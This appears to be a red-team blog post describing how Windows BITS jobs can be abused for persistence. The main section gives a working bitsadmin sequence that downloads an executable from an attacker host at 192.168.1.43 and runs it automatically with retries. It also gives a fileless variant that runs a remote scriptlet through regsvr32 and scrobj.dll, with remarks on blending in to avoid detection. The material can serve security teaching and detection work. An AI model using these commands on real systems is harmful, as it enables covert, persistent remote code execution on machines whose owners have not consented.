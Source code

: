 ```yaml
---
layout: single
classes: wide
title: BITS Persistence
excerpt: "Using BITSadmin for persistence"
date: 2020-09-27
tags: [windows persistence]
---
```


# BITS
## What is BITS job?
BITS or also known as Background Intelligent Transfer Service is a application that is used to download or upload files to two protocols which are HTTP web servers and SMB. BITS is also used to update other applications. 

One of the key feautures of BITS is that it allows download in the background and once a connection has been established it won't get disconnect unless the user logout or rebooted and when the network connection is off. It's also interesting to mention that BITS will reestablished the connection that has been lost due to circumstances for instance network connection was turned off, or the user rebooted or logout.

## Using BITS as a persistence tactic.
In the hacker's view or the offensive side, this can be abused to download payloads or tools that they require, It is also worth to mention that there's a highly chance of not getting detected when using this as there are also legitimate applications that use this so we just need to blend in with the environment. However, using BITS requires administration privileges on the compromised host.

### To download and execute:
```
bitsadmin /create shell
bitsadmin /addfile shell "http://192.168.1.43/shen.exe"  "C:\tmp\shen.exe"
bitsadmin /SetNotifyCmdLine shell C:\tmp\shen.exe NULL
bitsadmin /SetMinRetryDelay "shell" 60
bitsadmin /resume shell
```
1. The `/create` parameter is used to specify what type of jobs you want to create and the name of the job when not specifying the type it will default to `Download`. 
	`bitsadmin /create [type] displayname`
2. The `/addfile` parameter is used to add a file into a specific job which as a value we can add the name of the job, a remoteURL that contains a file or a local file and the output name and location. 
	`bitsadmin /addfile <job> <remoteURL> <localname>`
3. The `/SetNotifyCmdLine` parameter is used to run a cli command after a job was done transferring data. 
	`bitsadmin /setnotifycmdline <job> <program_name> [program_parameters]`
4. The `/SetMinRetryDelay` parameter is used to set how many seconds to wait before retrying to download a file once again that failed. `bitsadmin /setminretrydelay <job> <retrydelay>
`
5. The `/resume` parameter is used to activate the job. 
	`bitsadmin /resume <job>`
	
It is also possible to execute a scriptlet from a remote host via the regsvr32 through `SetNotifyCmdLine` to avoid touching the disk.
```
bitsadmin /SetNotifyCmdLine shell regsvr32.exe "/s /n /u /i:http://192.168.1.43/FHXSd9.sct scrobj.dll"
bitsadmin /resume shell
```

The metasploit module `exploit/multi/script/web_delivery` uses regsvr32 to deliver payloads.

## Resources:
https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md

https://pentestlab.blog/2019/10/30/persistence-bits-jobs/

http://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html
